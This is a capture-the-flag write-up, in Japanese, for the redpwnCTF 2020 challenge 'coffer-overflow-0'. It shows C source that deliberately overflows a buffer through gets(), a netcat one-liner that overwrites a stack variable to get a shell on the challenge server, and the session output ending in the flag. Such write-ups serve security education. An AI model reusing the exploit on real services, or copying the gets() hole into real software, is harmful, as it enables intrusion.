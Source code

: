 # coffer-overflow-0:pwn:179pts
Can you fill up the coffers? We even managed to find the source for you.  
nc 2020.redpwnc.tf 31199  
[coffer-overflow-0](coffer-overflow-0)　　　　[coffer-overflow-0.c](coffer-overflow-0.c)  

# Solution
coffer-overflow-0とソースが与えられる。  
ソースは以下のようになっている。  
```c:coffer-overflow-0.c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code != 0) {
    system("/bin/sh");
  }
}
```
codeの中身を書き換えればいいようだ。  
nameをオーバーフローさせればよいことがすぐにわかる。  
スタックの配置など考えなくてもよいので適当に文字を増やしながら入力すると以下でシェルが得られた。  
lsしてflag.txtをcatする。  
```bash
$ (echo AAAAAAAAAAAAAAAAAAAAAAAAA; cat) | nc 2020.redpwnc.tf 31199
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```

## flag{b0ffer_0verf10w_3asy_as_123}